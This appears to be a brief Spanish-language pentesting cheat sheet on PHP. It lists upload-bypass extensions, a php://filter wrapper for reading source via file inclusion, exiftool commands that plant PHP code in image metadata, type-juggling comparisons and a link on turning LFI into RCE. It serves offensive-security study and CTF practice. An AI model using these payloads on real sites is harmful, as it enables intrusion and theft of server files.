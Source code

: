 ```yaml
---
layout: app
title: "PHP"
tags: ["php"]
image: "php"
---
```



**.htaccess** tiene la configuración y bloquea ejecutables dentro de unas rutas especificas.

⚠️ **Se puede cargar un archivo vacio**

### Extensiones Validas

- php
- php4
- php5
- php6
- inc
- phar


## Wrapper

```php
    php://filter/convert.base64-encode/resource=<filename>
```

## Vulnerabilidades

### PHP Code inside Image

> Create a php file like an image

```php
exiftool -Comment="<?php echo 'Start' . file_get_contents('<file>') . 'END' ?>" <imagefile>.jpg -o <output.php>
```

```
exiftool -comment="<?php phpinfo(); ?>" output.png
```

### Type Juggling (PHP ≤ 5)

```bash
'0xAAAA' **==** '43690' => true
'0xAAAA' **==** 43690 => true

'0e0000' == '0' => true
'0e999999' == '0' => true
```

### Consola

```bash
php -a # Interactivo
php -S 0.0.0.0:80 # Inicia un servidor
```

## LFI to RCE

[LFI2RCE via PHP Filters](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)